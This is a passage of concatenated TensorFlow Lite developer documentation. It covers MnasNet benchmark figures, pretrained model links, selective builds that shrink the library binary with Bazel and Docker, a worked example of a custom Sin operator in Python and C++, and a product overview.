MnasNet_0.75_224 | [paper](https://arxiv.org/abs/1807.11626), [tflite&pb](https://storage.cloud.google.com/download.tensorflow.org/models/tflite/mnasnet_0.75_224_09_07_2018.tgz) | 12 Mb      | 71.72%         | 90.17%         | 13.7 ms        | 7.1 ms  | 16.7 ms
MnasNet_1.0_96   | [paper](https://arxiv.org/abs/1807.11626), [tflite&pb](https://storage.cloud.google.com/download.tensorflow.org/models/tflite/mnasnet_1.0_96_09_07_2018.tgz)   | 17 Mb      | 62.33%         | 83.98%         | 5.6 ms         | 5.4 ms  | 12.1 ms
MnasNet_1.0_128  | [paper](https://arxiv.org/abs/1807.11626), [tflite&pb](https://storage.cloud.google.com/download.tensorflow.org/models/tflite/mnasnet_1.0_128_09_07_2018.tgz)  | 17 Mb      | 67.32%         | 87.70%         | 7.5 ms         | 5.8 ms  | 12.9 ms
MnasNet_1.0_160  | [paper](https://arxiv.org/abs/1807.11626), [tflite&pb](https://storage.cloud.google.com/download.tensorflow.org/models/tflite/mnasnet_1.0_160_09_07_2018.tgz)  | 17 Mb      | 70.63%         | 89.58%         | 11.1 ms        | 6.7 ms  | 14.2 ms
MnasNet_1.0_192  | [paper](https://arxiv.org/abs/1807.11626), [tflite&pb](https://storage.cloud.google.com/download.tensorflow.org/models/tflite/mnasnet_1.0_192_09_07_2018.tgz)  | 17 Mb      | 72.56%         | 90.76%         | 14.5 ms        | 7.7 ms  | 16.6 ms
MnasNet_1.0_224  | [paper](https://arxiv.org/abs/1807.11626), [tflite&pb](https://storage.cloud.google.com/download.tensorflow.org/models/tflite/mnasnet_1.0_224_09_07_2018.tgz)  | 17 Mb      | 74.08%         | 91.75%         | 19.4 ms        | 8.7 ms  | 19 ms
MnasNet_1.3_224  | [paper](https://arxiv.org/abs/1807.11626), [tflite&pb](https://storage.cloud.google.com/download.tensorflow.org/models/tflite/mnasnet_1.3_224_09_07_2018.tgz)  | 24 Mb      | 75.24%         | 92.55%         | 27.9 ms        | 10.6 ms | 22.0 ms

Note: Performance numbers were benchmarked on Pixel-3 (Android 10). Accuracy
numbers were computed using the
[TFLite image classification evaluation tool](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/evaluation/tasks/imagenet_image_classification).

## Object detection

For more information about object detection, see
<a href="../models/object_detection/overview.md">Object detection</a>. Explore
the TensorFlow Lite Task Library for instructions about
[how to integrate object detection models](../inference_with_metadata/task_library/object_detector)
in just a few lines of code.

Please find
[object detection models](https://tfhub.dev/s?deployment-format=lite&module-type=image-object-detection)
from TensorFlow Hub.

## Pose estimation

For more information about pose estimation, see
<a href="../models/pose_estimation/overview.md">Pose estimation</a>.

Please find
[pose estimation models](https://tfhub.dev/s?deployment-format=lite&module-type=image-pose-detection)
from TensorFlow Hub.

## Image segmentation

For more information about image segmentation, see
<a href="../models/segmentation/overview.md">Segmentation</a>. Explore the
TensorFlow Lite Task Library for instructions about
[how to integrate image segmentation models](../inference_with_metadata/task_library/image_segmenter)
in just a few lines of code.

Please find
[image segmentation models](https://tfhub.dev/s?deployment-format=lite&module-type=image-segmentation)
from TensorFlow Hub.

## Question and Answer

For more information about question and answer with MobileBERT, see
<a href="../models/bert_qa/overview.md">Question And Answer</a>. Explore the
TensorFlow Lite Task Library for instructions about
[how to integrate question and answer models](../inference_with_metadata/task_library/bert_question_answerer)
in just a few lines of code.

Please find [Mobile BERT model](https://tfhub.dev/tensorflow/mobilebert/1) from
TensorFlow Hub.

## Smart reply

For more information about smart reply, see
<a href="../models/smart_reply/overview.md">Smart reply</a>.

Please find [Smart Reply model](https://tfhub.dev/tensorflow/smartreply/1) from
TensorFlow Hub.
# Reduce TensorFlow Lite binary size

## Overview

When deploying models for on-device machine learning (ODML) applications, it is
important to be aware of the limited memory that is available on mobile devices.
Model binary sizes are closely correlated to the number of ops used in the
model. TensorFlow Lite enables you to reduce model binary sizes by using
selective builds. Selective builds skip unused operations in your model set and
produce a compact library with just the runtime and the op kernels required for
the model to run on your mobile device.

Selective build applies on the following three operations libraries.

1.  [TensorFlow Lite built-in ops library](https://www.tensorflow.org/lite/guide/ops_compatibility)
1.  [TensorFlow Lite custom ops](https://www.tensorflow.org/lite/guide/ops_custom)
1.  [Select TensorFlow ops library](https://www.tensorflow.org/lite/guide/ops_select)

The table below demonstrates the impact of selective builds for some common use
cases:

<table>
  <thead>
    <tr>
      <th>Model Name</th>
      <th>Domain</th>
      <th>Target architecture</th>
      <th>AAR file size(s)</th>
    </tr>
  </thead>
  <tr>
    <td rowspan = 2>
      <a href="https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_1.0_224.tgz">Mobilenet_1.0_224(float)</a>
    </td>
    <td rowspan = 2>Image classification</td>
    <td>armeabi-v7a</td>
    <td>tensorflow-lite.aar (296,635 bytes)</td>
  </tr>
   <tr>
    <td>arm64-v8a</td>
    <td>tensorflow-lite.aar (382,892 bytes)</td>
  </tr>
  <tr>
    <td rowspan = 2>
      <a href="https://tfhub.dev/google/lite-model/spice/">SPICE</a>
    </td>
    <td rowspan = 2>Sound pitch extraction</td>
    <td>armeabi-v7a</td>
    <td>tensorflow-lite.aar (375,813 bytes)<br />tensorflow-lite-select-tf-ops.aar (1,676,380 bytes)</td>
  </tr>
   <tr>
    <td>arm64-v8a</td>
    <td>tensorflow-lite.aar (421,826 bytes)<br />tensorflow-lite-select-tf-ops.aar (2,298,630 bytes)</td>
  </tr>
  <tr>
    <td rowspan = 2>
      <a href="https://tfhub.dev/deepmind/i3d-kinetics-400/1">i3d-kinetics-400</a>
    </td>
    <td rowspan = 2>Video classification</td>
    <td>armeabi-v7a</td>
    <td>tensorflow-lite.aar (240,085 bytes)<br />tensorflow-lite-select-tf-ops.aar (1,708,597 bytes)</td>
  </tr>
   <tr>
    <td>arm64-v8a</td>
    <td>tensorflow-lite.aar (273,713 bytes)<br />tensorflow-lite-select-tf-ops.aar (2,339,697 bytes)</td>
  </tr>
 </table>

Note: This feature is currently experimental and available since version 2.4 and
may change.

## Selectively build TensorFlow Lite with Bazel

This section assumes that you have downloaded TensorFlow source codes and
[set up the local development environment](https://www.tensorflow.org/lite/guide/build_android#set_up_build_environment_without_docker)
to Bazel.

### Build AAR files for Android project

You can build the custom TensorFlow Lite AARs by providing your model file paths
as follows.

```sh
sh tensorflow/lite/tools/build_aar.sh \
  --input_models=/a/b/model_one.tflite,/c/d/model_two.tflite \
  --target_archs=x86,x86_64,arm64-v8a,armeabi-v7a
```

The above command will generate the AAR file `bazel-bin/tmp/tensorflow-lite.aar`
for TensorFlow Lite built-in and custom ops; and optionally, generates the aar
file `bazel-bin/tmp/tensorflow-lite-select-tf-ops.aar` if your models contain
Select TensorFlow ops. Note that this builds a "fat" AAR with several different
architectures; if you don't need all of them, use the subset appropriate for
your deployment environment.

### Build with custom ops

If you have developed Tensorflow Lite models with custom ops, you can build them
by adding the following flags to the build command:

```sh
sh tensorflow/lite/tools/build_aar.sh \
  --input_models=/a/b/model_one.tflite,/c/d/model_two.tflite \
  --target_archs=x86,x86_64,arm64-v8a,armeabi-v7a \
  --tflite_custom_ops_srcs=/e/f/file1.cc,/g/h/file2.h \
  --tflite_custom_ops_deps=dep1,dep2
```

The `tflite_custom_ops_srcs` flag contains source files of your custom ops and
the `tflite_custom_ops_deps` flag contains dependencies to build those source
files. Note that these dependencies must exist in the TensorFlow repo.

### Advanced Usages: Custom Bazel rules

If your project is using Bazel and you would like to define custom TFLite
dependencies for a given set of models, you can define following rule(s) in your
project repository:

For the models with the builtin ops only:

```bazel
load(
    "@org_tensorflow//tensorflow/lite:build_def.bzl",
    "tflite_custom_android_library",
    "tflite_custom_c_library",
    "tflite_custom_cc_library",
)

# A selectively built TFLite Android library.
tflite_custom_android_library(
    name = "selectively_built_android_lib",
    models = [
        ":model_one.tflite",
        ":model_two.tflite",
    ],
)

# A selectively built TFLite C library.
tflite_custom_c_library(
    name = "selectively_built_c_lib",
    models = [
        ":model_one.tflite",
        ":model_two.tflite",
    ],
)

# A selectively built TFLite C++ library.
tflite_custom_cc_library(
    name = "selectively_built_cc_lib",
    models = [
        ":model_one.tflite",
        ":model_two.tflite",
    ],
)
```

For the models with the [Select TF ops](../guide/ops_select.md):

```bazel
load(
    "@org_tensorflow//tensorflow/lite/delegates/flex:build_def.bzl",
    "tflite_flex_android_library",
    "tflite_flex_cc_library",
)

# A Select TF ops enabled selectively built TFLite Android library.
tflite_flex_android_library(
    name = "selective_built_tflite_flex_android_lib",
    models = [
        ":model_one.tflite",
        ":model_two.tflite",
    ],
)

# A Select TF ops enabled selectively built TFLite C++ library.
tflite_flex_cc_library(
    name = "selective_built_tflite_flex_cc_lib",
    models = [
        ":model_one.tflite",
        ":model_two.tflite",
    ],
)
```

### Advanced Usages: Build custom C/C++ shared libraries

If you would like to build your own custom TFLite C/C++ shared objects towards
the given models, you can follow the below steps:

Create a temporary BUILD file by running the following command at the root
directory of the TensorFlow source code:

```sh
mkdir -p tmp && touch tmp/BUILD
```

#### Building custom C shared objects

If you would like to build a custom TFLite C shared object, add the following to
`tmp/BUILD` file:

```bazel
load(
    "//tensorflow/lite:build_def.bzl",
    "tflite_custom_c_library",
    "tflite_cc_shared_object",
)

tflite_custom_c_library(
    name = "selectively_built_c_lib",
    models = [
        ":model_one.tflite",
        ":model_two.tflite",
    ],
)

# Generates a platform-specific shared library containing the TensorFlow Lite C
# API implementation as define in `c_api.h`. The exact output library name
# is platform dependent:
#   - Linux/Android: `libtensorflowlite_c.so`
#   - Mac: `libtensorflowlite_c.dylib`
#   - Windows: `tensorflowlite_c.dll`
tflite_cc_shared_object(
    name = "tensorflowlite_c",
    linkopts = select({
        "//tensorflow:ios": [
            "-Wl,-exported_symbols_list,$(location //tensorflow/lite/c:exported_symbols.lds)",
        ],
        "//tensorflow:macos": [
            "-Wl,-exported_symbols_list,$(location //tensorflow/lite/c:exported_symbols.lds)",
        ],
        "//tensorflow:windows": [],
        "//conditions:default": [
            "-z defs",
            "-Wl,--version-script,$(location //tensorflow/lite/c:version_script.lds)",
        ],
    }),
    per_os_targets = True,
    deps = [
        ":selectively_built_c_lib",
        "//tensorflow/lite/c:exported_symbols.lds",
        "//tensorflow/lite/c:version_script.lds",
    ],
)
```

The newly added target can be built as follows:

```sh
bazel build -c opt --cxxopt=--std=c++14 \
  //tmp:tensorflowlite_c
```

and for Android (replace `android_arm` with `android_arm64` for 64-bit):

```sh
bazel build -c opt --cxxopt=--std=c++14 --config=android_arm \
  //tmp:tensorflowlite_c
```

#### Building custom C++ shared objects

If you would like to build a custom TFLite C++ shared object, add the following
to `tmp/BUILD` file:

```bazel
load(
    "//tensorflow/lite:build_def.bzl",
    "tflite_custom_cc_library",
    "tflite_cc_shared_object",
)

tflite_custom_cc_library(
    name = "selectively_built_cc_lib",
    models = [
        ":model_one.tflite",
        ":model_two.tflite",
    ],
)

# Shared lib target for convenience, pulls in the core runtime and builtin ops.
# Note: This target is not yet finalized, and the exact set of exported (C/C++)
# APIs is subject to change. The output library name is platform dependent:
#   - Linux/Android: `libtensorflowlite.so`
#   - Mac: `libtensorflowlite.dylib`
#   - Windows: `tensorflowlite.dll`
tflite_cc_shared_object(
    name = "tensorflowlite",
    # Until we have more granular symbol export for the C++ API on Windows,
    # export all symbols.
    features = ["windows_export_all_symbols"],
    linkopts = select({
        "//tensorflow:macos": [
            "-Wl,-exported_symbols_list,$(location //tensorflow/lite:tflite_exported_symbols.lds)",
        ],
        "//tensorflow:windows": [],
        "//conditions:default": [
            "-Wl,-z,defs",
            "-Wl,--version-script,$(location //tensorflow/lite:tflite_version_script.lds)",
        ],
    }),
    per_os_targets = True,
    deps = [
        ":selectively_built_cc_lib",
        "//tensorflow/lite:tflite_exported_symbols.lds",
        "//tensorflow/lite:tflite_version_script.lds",
    ],
)
```

The newly added target can be built as follows:

```sh
bazel build -c opt  --cxxopt=--std=c++14 \
  //tmp:tensorflowlite
```

and for Android (replace `android_arm` with `android_arm64` for 64-bit):

```sh
bazel build -c opt --cxxopt=--std=c++14 --config=android_arm \
  //tmp:tensorflowlite
```

For the models with the Select TF ops, you also need to build the following
shared library as well:

```bazel
load(
    "@org_tensorflow//tensorflow/lite/delegates/flex:build_def.bzl",
    "tflite_flex_shared_library"
)

# Shared lib target for convenience, pulls in the standard set of TensorFlow
# ops and kernels. The output library name is platform dependent:
#   - Linux/Android: `libtensorflowlite_flex.so`
#   - Mac: `libtensorflowlite_flex.dylib`
#   - Windows: `libtensorflowlite_flex.dll`
tflite_flex_shared_library(
  name = "tensorflowlite_flex",
  models = [
      ":model_one.tflite",
      ":model_two.tflite",
  ],
)

```

The newly added target can be built as follows:

```sh
bazel build -c opt --cxxopt='--std=c++14' \
      --config=monolithic \
      --host_crosstool_top=@bazel_tools//tools/cpp:toolchain \
      //tmp:tensorflowlite_flex
```

and for Android (replace `android_arm` with `android_arm64` for 64-bit):

```sh
bazel build -c opt --cxxopt='--std=c++14' \
      --config=android_arm \
      --config=monolithic \
      --host_crosstool_top=@bazel_tools//tools/cpp:toolchain \
      //tmp:tensorflowlite_flex
```

## Selectively Build TensorFlow Lite with Docker

This section assumes that you have installed
[Docker](https://docs.docker.com/get-docker/) on your local machine and
downloaded the TensorFlow Lite Dockerfile
[here](https://www.tensorflow.org/lite/guide/build_android#set_up_build_environment_using_docker).

After downloading the above Dockerfile, you can build the docker image by
running:

```shell
docker build . -t tflite-builder -f tflite-android.Dockerfile
```

### Build AAR files for Android project

Download the script for building with Docker by running:

```sh
curl -o build_aar_with_docker.sh \
  https://raw.githubusercontent.com/tensorflow/tensorflow/master/tensorflow/lite/tools/build_aar_with_docker.sh &&
chmod +x build_aar_with_docker.sh
```

Then, you can build the custom TensorFlow Lite AAR by providing your model file
paths as follows.

```sh
sh build_aar_with_docker.sh \
  --input_models=/a/b/model_one.tflite,/c/d/model_two.tflite \
  --target_archs=x86,x86_64,arm64-v8a,armeabi-v7a \
  --checkpoint=master \
  [--cache_dir=<path to cache directory>]
```

The `checkpoint` flag is a commit, a branch or a tag of the TensorFlow repo that
you want to checkout before building the libraries; by default it is the latest
release branch. The above command will generate the AAR file
`tensorflow-lite.aar` for TensorFlow Lite built-in and custom ops and optionally
the AAR file `tensorflow-lite-select-tf-ops.aar` for Select TensorFlow ops in
your current directory.

The --cache_dir specify the cache directory. If not provided, the script will
create a directory named `bazel-build-cache` under current working directory for
caching.

## Add AAR files to project

Add AAR files by directly
[importing the AAR into your project](https://www.tensorflow.org/lite/guide/build_android#add_aar_directly_to_project),
or by
[publishing the custom AAR to your local Maven repository](https://www.tensorflow.org/lite/guide/build_android#install_aar_to_local_maven_repository).
Note that you have to add the AAR files for `tensorflow-lite-select-tf-ops.aar`
as well if you generate it.

## Selective Build for iOS

Please see the
[Building locally section](../guide/build_ios.md#building_locally) to set up the
build environment and configure TensorFlow workspace and then follow the
[guide](../guide/build_ios.md#selectively_build_tflite_frameworks) to use the
selective build script for iOS.
# Custom operators

Since the TensorFlow Lite builtin operator library only supports a limited
number of TensorFlow operators, not every model is convertible. For details,
refer to [operator compatibility](ops_compatibility.md).

To allow conversion, users can provide their own custom implementation of an
unsupported TensorFlow operator in TensorFlow Lite, known as a custom operator.
*If instead, you wish to combine a series of unsupported (or supported)
TensorFlow operators into a single fused optimized custom operator, refer to
[operator fusing](https://www.tensorflow.org/lite/convert/operation_fusion).*

Using custom operators consists of four steps.

*   [Create a TensorFlow Model.](#create-a-tensorflow-model) Make sure the Saved
    Model (or Graph Def) refers to the correctly named TensorFlow Lite operator.

*   [Convert to a TensorFlow Lite Model.](#convert-to-a-tensorflow-lite-model)
    Make sure you set the right TensorFlow Lite converter attribute in order to
    successfully convert the model.

*   [Create and register the operator.](#create-and-register-the-operator) This
    is so that the TensorFlow Lite runtime knows how to map your operator and
    parameters in your graph to executable C/C++ code.

*   [Test and profile your operator.](#test-and-profile-your-operator) If you
    wish to test just your custom operator, it is best to create a model with
    just your custom operator and use the
    [benchmark_model](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/tools/benchmark/benchmark_model.cc)
    program.

Let’s walk through an end-to-end example of running a model with a custom
operator `tf.sin` (named as `Sin`, refer to #create-a-tensorflow-model) which is
supported in TensorFlow, but unsupported in TensorFlow Lite.

Note: In reality, `tf.sin` is **not** a custom operator. It is regular operator
which is supported by both TensorFlow and TensorFlow Lite. But we **assume**
that it is a custom operator in the following example in order to demonstrate a
simple workflow.

## Example: Custom `Sin` operator

Let’s walk through an example of supporting a TensorFlow operator that
TensorFlow Lite does not have. Assume we are using the `Sin` operator and that
we are building a very simple model for a function `y = sin(x + offset)`, where
`offset` is trainable.

### Create a TensorFlow Model

The following code snippet trains a simple TensorFlow model. This model just
contains a custom operator named `Sin`, which is a function `y = sin(x +
offset)`, where `offset` is trainable.

```python
import tensorflow as tf

# Define training dataset and variables
x = [-8, 0.5, 2, 2.2, 201]
y = [-0.6569866 ,  0.99749499,  0.14112001, -0.05837414,  0.80641841]
offset = tf.Variable(0.0)

# Define a simple model which just contains a custom operator named `Sin`
@tf.function
def sin(x):
  return tf.sin(x + offset, name="Sin")

# Train model
optimizer = tf.optimizers.Adam(0.01)
def train(x, y):
    with tf.GradientTape() as t:
      predicted_y = sin(x)
      loss = tf.reduce_sum(tf.square(predicted_y - y))
    grads = t.gradient(loss, [offset])
    optimizer.apply_gradients(zip(grads, [offset]))

for i in range(1000):
    train(x, y)

print("The actual offset is: 1.0")
print("The predicted offset is:", offset.numpy())
```

```python
The actual offset is: 1.0
The predicted offset is: 1.0000001
```

At this point, if you try to generate a TensorFlow Lite model with the default
converter flags, you will get the following error message:

```none
Error:
Some of the operators in the model are not supported by the standard TensorFlow
Lite runtime...... Here is
a list of operators for which you will need custom implementations: Sin.
```

### Convert to a TensorFlow Lite Model

Create a TensorFlow Lite model with custom operators, by setting the converter
attribute `allow_custom_ops` as shown below:

<pre>
converter = tf.lite.TFLiteConverter.from_concrete_functions([sin.get_concrete_function(x)], sin)
<b>converter.allow_custom_ops = True</b>
tflite_model = converter.convert()
</pre>

At this point, if you run it with the default interpreter, you will get the
following error messages:

```none
Error:
Didn't find custom operator for name 'Sin'
Registration failed.
```

### Create and register the operator.

All TensorFlow Lite operators (both custom and builtin) are defined using a
simple pure-C interface that consists of four functions:

```c++
typedef struct {
  void* (*init)(TfLiteContext* context, const char* buffer, size_t length);
  void (*free)(TfLiteContext* context, void* buffer);
  TfLiteStatus (*prepare)(TfLiteContext* context, TfLiteNode* node);
  TfLiteStatus (*invoke)(TfLiteContext* context, TfLiteNode* node);
} TfLiteRegistration;
```

Refer to
[`common.h`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/c/common.h)
for details on `TfLiteContext` and `TfLiteNode`. The former provides error
reporting facilities and access to global objects, including all the tensors.
The latter allows implementations to access their inputs and outputs.

When the interpreter loads a model, it calls `init()` once for each node in the
graph. A given `init()` will be called more than once if the op is used multiple
times in the graph. For custom ops a configuration buffer will be provided,
containing a flexbuffer that maps parameter names to their values. The buffer is
empty for builtin ops because the interpreter has already parsed the op
parameters. Kernel implementations that require state should initialize it here
and transfer ownership to the caller. For each `init()` call, there will be a
corresponding call to `free()`, allowing implementations to dispose of the
buffer they might have allocated in `init()`.

Whenever the input tensors are resized, the interpreter will go through the
graph notifying implementations of the change. This gives them the chance to
resize their internal buffer, check validity of input shapes and types, and
recalculate output shapes. This is all done through `prepare()`, and
implementations can access their state using `node->user_data`.

Finally, each time inference runs, the interpreter traverses the graph calling
`invoke()`, and here too the state is available as `node->user_data`.

Custom ops can be implemented in exactly the same way as builtin ops, by
defining those four functions and a global registration function that usually
looks like this:

```c++
namespace tflite {
namespace ops {
namespace custom {
  TfLiteRegistration* Register_MY_CUSTOM_OP() {
    static TfLiteRegistration r = {my_custom_op::Init,
                                   my_custom_op::Free,
                                   my_custom_op::Prepare,
                                   my_custom_op::Eval};
    return &r;
  }
}  // namespace custom
}  // namespace ops
}  // namespace tflite
```

Note that registration is not automatic and an explicit call to
`Register_MY_CUSTOM_OP` should be made. While the standard `BuiltinOpResolver`
(available from the `:builtin_ops` target) takes care of the registration of
builtins, custom ops will have to be collected in separate custom libraries.

### Defining the kernel in the TensorFlow Lite runtime

All we need to do to use the op in TensorFlow Lite is define two functions
(`Prepare` and `Eval`), and construct a `TfLiteRegistration`:

```cpp
TfLiteStatus SinPrepare(TfLiteContext* context, TfLiteNode* node) {
  using namespace tflite;
  TF_LITE_ENSURE_EQ(context, NumInputs(node), 1);
  TF_LITE_ENSURE_EQ(context, NumOutputs(node), 1);

  const TfLiteTensor* input = GetInput(context, node, 0);
  TfLiteTensor* output = GetOutput(context, node, 0);

  int num_dims = NumDimensions(input);

  TfLiteIntArray* output_size = TfLiteIntArrayCreate(num_dims);
  for (int i=0; i<num_dims; ++i) {
    output_size->data[i] = input->dims->data[i];
  }

  return context->ResizeTensor(context, output, output_size);
}

TfLiteStatus SinEval(TfLiteContext* context, TfLiteNode* node) {
  using namespace tflite;
  const TfLiteTensor* input = GetInput(context, node,0);
  TfLiteTensor* output = GetOutput(context, node,0);

  float* input_data = input->data.f;
  float* output_data = output->data.f;

  size_t count = 1;
  int num_dims = NumDimensions(input);
  for (int i = 0; i < num_dims; ++i) {
    count *= input->dims->data[i];
  }

  for (size_t i=0; i<count; ++i) {
    output_data[i] = sin(input_data[i]);
  }
  return kTfLiteOk;
}

TfLiteRegistration* Register_SIN() {
  static TfLiteRegistration r = {nullptr, nullptr, SinPrepare, SinEval};
  return &r;
}
```

When initializing the `OpResolver`, add the custom op into the resolver (see
below for an example). This will register the operator with Tensorflow Lite so
that TensorFlow Lite can use the new implementation. Note that the last two
arguments in `TfLiteRegistration` correspond to the `SinPrepare` and `SinEval`
functions you defined for the custom op. If you used `SinInit` and `SinFree`
functions to initialize variables used in the op and to free up space,
respectively, then they would be added to the first two arguments of
`TfLiteRegistration`; those arguments are set to `nullptr` in this example.

### Register the operator with the kernel library

Now we need to register the operator with the kernel library. This is done with
an `OpResolver`. Behind the scenes, the interpreter will load a library of
kernels which will be assigned to execute each of the operators in the model.
While the default library only contains builtin kernels, it is possible to
replace/augment it with a custom library op operators.

The `OpResolver` class, which translates operator codes and names into actual
code, is defined like this:

```c++
class OpResolver {
  virtual TfLiteRegistration* FindOp(tflite::BuiltinOperator op) const = 0;
  virtual TfLiteRegistration* FindOp(const char* op) const = 0;
  virtual void AddBuiltin(tflite::BuiltinOperator op, TfLiteRegistration* registration) = 0;
  virtual void AddCustom(const char* op, TfLiteRegistration* registration) = 0;
};
```

Regular usage requires that you use the `BuiltinOpResolver` and write:

```c++
tflite::ops::builtin::BuiltinOpResolver resolver;
```

To add the custom op created above, you call `AddOp` (before you pass the
resolver to the `InterpreterBuilder`):

```c++
resolver.AddCustom("Sin", Register_SIN());
```

If the set of builtin ops is deemed to be too large, a new `OpResolver` could be
code-generated based on a given subset of ops, possibly only the ones contained
in a given model. This is the equivalent of TensorFlow's selective registration
(and a simple version of it is available in the `tools` directory).

If you want to define your custom operators in Java, you would currently need to
build your own custom JNI layer and compile your own AAR
[in this jni code](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/java/src/main/native/builtin_ops_jni.cc).
Similarly, if you wish to define these operators available in Python you can
place your registrations in the
[Python wrapper code](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/python/interpreter_wrapper/interpreter_wrapper.cc).

Note that a similar process as above can be followed for supporting a set of
operations instead of a single operator. Just add as many `AddCustom` operators
as you need. In addition, `BuiltinOpResolver` also allows you to override
implementations of builtins by using the `AddBuiltin`.

### Test and profile your operator

To profile your op with the TensorFlow Lite benchmark tool, you can use the
[benchmark model tool](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark#tflite-model-benchmark-tool)
for TensorFlow Lite. For testing purposes, you can make your local build of
TensorFlow Lite aware of your custom op by adding the appropriate `AddCustom`
call (as show above) to
[register.cc](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/kernels/register.cc)

## Best practices

1.  Optimize memory allocations and de-allocations cautiously. Allocating memory
    in `Prepare` is more efficient than in `Invoke`, and allocating memory
    before a loop is better than in every iteration. Use temporary tensors data
    rather than mallocing yourself (see item 2). Use pointers/references instead
    of copying as much as possible.

2.  If a data structure will persist during the entire operation, we advise
    pre-allocating the memory using temporary tensors. You may need to use
    OpData struct to reference the tensor indices in other functions. See the
    example in the
    [kernel for convolution](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/kernels/conv.cc).
    A sample code snippet is below

    ```
    auto* op_data = reinterpret_cast<OpData*>(node->user_data);
    TfLiteIntArrayFree(node->temporaries);
    node->temporaries = TfLiteIntArrayCreate(1);
    node->temporaries->data[0] = op_data->temp_tensor_index;
    TfLiteTensor* temp_tensor = &context->tensors[op_data->temp_tensor_index];
    temp_tensor->type =  kTfLiteFloat32;
    temp_tensor->allocation_type = kTfLiteArenaRw;
    ```

3.  If it doesn't cost too much wasted memory, prefer using a static fixed size
    array (or a pre-allocated `std::vector` in `Resize`) rather than using a
    dynamically allocated `std::vector` every iteration of execution.

4.  Avoid instantiating standard library container templates that don't already
    exist, because they affect binary size. For example, if you need a
    `std::map` in your operation that doesn't exist in other kernels, using a
    `std::vector` with direct indexing mapping could work while keeping the
    binary size small. See what other kernels use to gain insight (or ask).

5.  Check the pointer to the memory returned by `malloc`. If this pointer is
    `nullptr`, no operations should be performed using that pointer. If you
    `malloc` in a function and have an error exit, deallocate memory before you
    exit.

6.  Use `TF_LITE_ENSURE(context, condition)` to check for a specific condition.
    Your code must not leave memory hanging when `TF_LITE_ENSURE` is used, i.e.,
    these macros should be used before any resources are allocated that will
    leak.
# TensorFlow Lite

TensorFlow Lite is a set of tools that enables on-device machine learning by
helping developers run their models on mobile, embedded, and IoT devices.

### Key features

-   *Optimized for on-device machine learning*, by addressing 5 key constraints:
    latency (there's no round-trip to a server), privacy (no personal data
    leaves the device), connectivity (internet connectivity is not required),
    size (reduced model and binary size) and power consumption (efficient
    inference and a lack of network connections).
-   *Multiple platform support*, covering [Android](android) and [iOS](ios)
    devices, [embedded Linux](python), and
    [microcontrollers](../microcontrollers).
-   *Diverse language support*, which includes Java, Swift, Objective-C, C++,
    and Python.
-   *High performance*, with [hardware acceleration](../performance/delegates)
    and [model optimization](../performance/model_optimization).
-   *End-to-end [examples](../examples)*, for common machine learning tasks such
    as image classification, object detection, pose estimation, question
    answering, text classification, etc. on multiple platforms.

Key Point: The TensorFlow Lite binary is ~1MB when all 125+ supported operators
are linked (for 32-bit ARM builds), and less than 300KB when using only the
operators needed for supporting the common image classification models
InceptionV3 and MobileNet.

## Development workflow

The following guide walks through each step of the workflow and provides links
to further instructions:

Note: Refer to the [performance best practices](../performance/best_practices)
guide for an ideal balance of performance, model size, and accuracy.

### 1. Generate a TensorFlow Lite model

A TensorFlow Lite model is represented in a special efficient portable format
known as [FlatBuffers](https://google.github.io/flatbuffers/){:.external}
(identified by the *.tflite* file extension). This provides several advantages
over TensorFlow's protocol buffer model format such as reduced size (small code
footprint) and faster inference (data is directly accessed without an extra
parsing/unpacking step) that enables TensorFlow Lite to execute efficiently on
devices with limited compute and memory resources.

A TensorFlow Lite model can optionally include *metadata* that has
human-readable model description and machine-readable data for automatic
generation of pre- and post-processing pipelines during on-device inference.
Refer to [Add metadata](../convert/metadata) for more details.

You can generate a TensorFlow Lite model in the following ways:

*   **Use an existing TensorFlow Lite model:** Refer to
    [TensorFlow Lite Examples](../examples) to pick an existing model. *Models
    may or may not contain metadata.*

*   **Create a TensorFlow Lite model:** Use the
    [TensorFlow Lite Model Maker](model_maker) to create a model with your own
    custom dataset. *By default, all models contain metadata.*

*   **Convert a TensorFlow model into a TensorFlow Lite model:** Use the
    [TensorFlow Lite Converter](../convert/index) to convert a TensorFlow model
    into a TensorFlow Lite model. During conversion, you can apply
    [optimizations](../performance/model_optimization) such as
    [quantization](../performance/post_training_quantization) to reduce model
    size and latency with minimal or no loss in accuracy. *By default, all
    models don't contain metadata.*

### 2. Run Inference

*Inference* refers to the process of executing a TensorFlow Lite model on-device
to make predictions based on input data. You can run inference in the following
ways based on the model type:

*   **Models *without* metadata**: Use the
    [TensorFlow Lite Interpreter](inference) API. *Supported on multiple
    platforms and languages such as Java, Swift, C++, Objective-C and Python.*

*   **Models *with* metadata**: You can either leverage the out-of-box APIs
    using the
    [TensorFlow Lite Task Library](../inference_with_metadata/task_library/overview)
    or build custom inference pipelines with the
    [TensorFlow Lite Support Library](../inference_with_metadata/lite_support).
    On android devices, users can automatically generate code wrappers using the
    [Android Studio ML Model Binding](../inference_with_metadata/codegen#mlbinding)
    or the
    [TensorFlow Lite Code Generator](../inference_with_metadata/codegen#codegen).
    *Supported only on Java (Android) while Swift (iOS) and C++ is work in
    progress.*

On Android and iOS devices, you can improve performance using hardware
acceleration. On either platforms you can use a
[GPU Delegate](../performance/gpu), on android you can either use the
[NNAPI Delegate](../performance/nnapi) (for newer devices) or the
[Hexagon Delegate](../performance/hexagon_delegate) (on older devices) and on
iOS you can use the [Core ML Delegate](../performance/coreml_delegate). To add
support for new hardware accelerators, you can
[define your own delegate](../performance/implementing_delegate).

## Get started

You can refer to the following guides based on your target device:

*   **Android and iOS:** Explore the [Android quickstart](android) and
    [iOS quickstart](ios).

*   **Embedded Linux:** Explore the [Python quickstart](python) for embedded
    devices such as [Raspberry Pi](https://www.raspberrypi.org/){:.external} and
    [Coral devices with Edge TPU](https://coral.withgoogle.com/){:.external}, or
    C++ build instructions for [ARM](build_arm).

*   **Microcontrollers:** Explore the
    [TensorFlow Lite for Microcontrollers](../microcontrollers) library for
    microcontrollers and DSPs that contain only a few kilobytes of memory.

## Technical constraints

